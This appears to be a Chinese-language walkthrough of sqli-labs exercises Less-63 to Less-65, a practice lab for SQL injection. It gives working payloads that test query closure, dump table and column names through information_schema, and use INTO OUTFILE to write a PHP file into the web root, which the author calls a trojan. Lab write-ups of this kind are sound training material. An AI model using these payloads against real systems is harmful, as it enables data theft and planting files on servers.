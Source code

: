 测试后台闭合方式

```sql
?id=0' or 1=1%23
```

写个马子

```sql
?id=0' union select 1,2,'<?=phpinfo();?>' into outfile'/var/www/html/Less-63/1.php'%23
```

成功

![122](/medias/sqli-labs/122.png)

## Less-64

测试后台闭合方式

```sql
?id=0)) or 1=1%23
```

这回不写马子了，把查询结果写到文件里

爆表、字段

```sql
# 表名 7L3F6QOYU6 
# 字段 secret_RLGQ
?id=0)) union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),(select group_concat(column_name) from information_schema.columns where table_schema=database()) into outfile '/var/www/html/Less-64/1.php'%23
```

爆数据

```sql
?id=0)) union select 1,2,(select group_concat(secret_RLGQ) from 7L3F6QOYU6) into outfile '/var/www/html/Less-64/2.php'%23
```

成功

![123](/medias/sqli-labs/123.png)


## Less-65

测试后台闭合方式

```sql
?id=0") or 1=1%23
```

爆表、字段

```sql
# 表名 7L3F6QOYU6  
# 字段 secret_RLGQ
?id=0") union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),(select group_concat(column_name) from information_schema.columns where table_schema=database()) into outfile '/var/www/html/Less-65/1.php'%23
```

